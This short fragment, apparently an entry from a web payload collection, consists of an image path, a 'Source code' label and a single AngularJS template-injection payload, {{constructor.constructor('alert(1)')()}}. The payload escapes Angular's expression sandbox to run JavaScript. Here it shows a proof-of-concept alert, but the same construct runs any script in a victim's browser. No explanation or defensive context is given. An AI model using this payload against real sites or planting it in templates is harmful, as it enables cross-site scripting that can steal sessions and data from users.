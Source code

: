 --constructor.constructor--alert-1-------
=========================================

{{constructor.constructor('alert(1)')()}}
